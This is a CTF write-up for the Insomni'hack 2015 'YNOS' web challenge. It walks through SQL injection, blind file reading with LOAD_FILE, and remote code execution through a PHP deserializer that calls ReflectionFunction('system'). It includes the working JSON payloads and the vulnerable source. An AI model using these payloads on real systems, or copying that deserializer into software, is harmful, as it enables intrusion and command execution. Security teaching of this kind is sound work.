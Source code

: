 # Insomni’hack CTF 2015: YNOS

**Category:** Web
**Points:** 100
**Author:** clZ
**Description:**

> <https://www.youtube.com/watch?v=O2rGTXHvPCQ>
>
> So many hacking scenes, so little sk1llz…
>
> Apparently [this website](http://ynos.teaser.insomnihack.ch/) likes these stupid films. Pwn them and get the flag which is in a pretty obvious file in the webroot.

## Write-up

### By team "curryboys" - Istvan Chung, Husayn Karimi, William Marshall

This one boils down to a boolean SQL injection attack and a code
execution from a custom PHP deserialization function.  I noticed by
using Firebug that the main login screen encodes the username and
password as JSON in a POST request to /INSO.RPC on the server, in the format

    {"c":{"name":"user"},"a":{"name":"login","params":"username|password"}}

Although I didn't know it at the time, it turns out that this is in fact
the serialized format of a `c`lass called `user`, requesting the
`a`ction `login`, a function to be called with the given parameters.
Placing the string `' OR 1=1 --` in for username allowed me to login and
get a session cookie quite easily.  However, all this lets us do is make
another call of the form

    {"c":{"name":"page"},"a":{"name":"render","params":"home"}}

(where we can substitute `"artists"`, `"films"`, `"directors"`, or
`"logout"` instead of `"home"`).  Unfortunately, none of those pages are
of any use, so I went back to the original SQL injection.  The challenge
states that the flag is in an "obvious" file in the webroot, so I
decided that I'd try to find where that was on the server.  Since we can
get binary information out of the SQL injection (login failed or
succeeded), we can test for the presence of files using the query

    LOAD_FILE('/path/to/file') IS NOT NULL

I managed to find `/etc/apache2/apache2.conf`, indicating that we were
looking at an Apache 2 server, and through trial and error eventually
found the existence of `/var/www/html/index.php`.  Quick testing showed
that `flag.txt`, `flag`, `FLAG`, etc were not present, so I used binary
search to brute-force first the length, and then the contents of
`index.php` and `INSO.RPC` character-by-character, which contain
references to `classes.php` and `functions.php`, which I read out as
well.  `functions.php` is reproduced here:


    <?php

    function parseParams($params) {
      if(is_array($params)) {
        return $params;
      }
      else {
        return explode("|",$params);
      }
    }

    function myDeserialize($object) {
      global $session;
      $class = $object["c"];
      $action = $object["a"];
      $cname = $class["name"];
      $cparams = Array();
      if(isset($class["params"])) {
        $cparams = $class["params"];
      }
      $my_obj = new $cname($cparams);
      $aname = $action["name"];
      $aparams = Array();
      if(isset($action["params"])) {
        $aparams = parseParams($action["params"]);
      }

      call_user_func_array(array($my_obj,$aname),$aparams);

    }

    ?>

`myDeserialize` is called by INSO.RPC to handle every incoming request.
It lets us create an instance of any class we desire with any
constructor parameters, and then call any method on that class with any
parameters.  We'd like to just call a function like `system`, but
`system` isn't the method of any class.  In addition, the classes in
`classes.php` appeared to be useless for locating the flag.  However,
the PHP built-in class [`ReflectionFunction`][rf] comes to the rescue, as
its `invoke` method lets us call the function we supply in the
constructor.  We can use the serialization vulnerability to make the
call

    new ReflectionFunction("system").invoke("ls")

We serialize this into

    {"c":{"name":"ReflectionFunction", "params":"system"},
     "a":{"name":"invoke","params":"ls"}}

and we get the celebration-inducing output

    INSO.RPC
    ___THE_FLAG_IS_IN_HERE___
    ___THE_FLAG_IS_IN_HERE___.save
    artists.php
    bootstrap.min.css
    bootstrap.min.js
    classes.php
    directors.php
    films.php
    functions.php
    home.php
    index.php
    jquery-2.1.1.min.js
    login.php
    logout.php
    preload.php

Changing `"ls"` to `cat ___THE_FLAG_IS_IN_HERE___` gives us our flag:

    INS{Gotta_L0ve_l33t_serialization_suff!}

[rf]:  http://php.net/manual/en/class.reflectionfunction.php


## Other write-ups and resources

* none yet
